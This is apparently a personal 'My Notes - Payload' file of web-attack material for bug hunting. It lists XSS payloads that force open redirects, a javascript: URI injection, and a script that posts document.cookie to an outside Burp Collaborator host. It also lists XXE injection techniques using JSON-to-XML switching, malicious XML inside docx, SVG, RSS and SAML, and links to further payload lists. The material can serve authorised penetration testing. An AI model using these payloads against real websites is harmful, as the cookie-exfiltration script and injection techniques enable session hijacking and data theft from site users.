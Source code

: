 # My Notes - Payload

## XSS to Open Redirection Payload:
1. http://Test"><img src=x onload=window.location="http://google.com">
2. "><img src=x onerror=window.location="http://google.com">
3. /auth/v2/login/signed_in?return_to=javascripT:alert(document/**/.domain);

## Exfiltrate cookie:
<script>fetch('https://anmol.burpcollaborator.net?'+document.cookie, {method: 'POST',mode: 'no-cors',body:document.cookie});alert('exfiltrated the document.cookie');</script>

## Multi XSS Exploit in Upload File
1. <a href="https://systemweakness.com/multi-xss-exploit-in-upload-file-2bfde6ce471a">Multi XSS Exploit in Upload File</a>

## Tiny XSS
1. <a href="https://tinyxss.terjanq.me/">Tiny XSS by @terjanq</a>

## Server-Side input validation testing
1. <a href=https://redtm.com/web-pentest/server-side-input-validation>Server-Side input validation testing</a>

## XXE Techniques [Observations]
1. Convert the content type from "application/json"/"application/x-www-form-urlencoded" to "application/xml".
2. File Uploads allows for docx/xlcs/pdf/zip , unzip the package and add your evil xml code into the xml files.
3. If svg allowed in picture upload , you can inject xml in svgs.
4. If the web app offers RSS feeds , add your malicious code into the RSS.
5. Fuzz for /soap api , some applications still running soap apis
6. If the target web app allows for SSO integration, you can inject your malicious xml code in the SAML request/response
7. For more: <a href="https://www.synack.com/blog/a-deep-dive-into-xxe-injection/">A Deep Dive into XXE Injection</a>

## XXE OOB
1. <a href="SOAP- Based Unauthenticated Out-of-Band XML External Entity (OOB-XXE) in a Help Desk Software">SOAP- Based Unauthenticated Out-of-Band XML External Entity (OOB-XXE) in a Help Desk Software</a>
2. <a href="https://hackerone.com/reports/36450">Soap-based XXE vulnerability /soapserver/</a>

## Resources
1. https://github.com/xsuperbug/payloads/blob/master/XSS%20-2
2. https://www.blackhat.com/presentations/bh-usa-09/VELANAVA/BHUSA09-VelaNava-FavoriteXSS-SLIDES.pdf
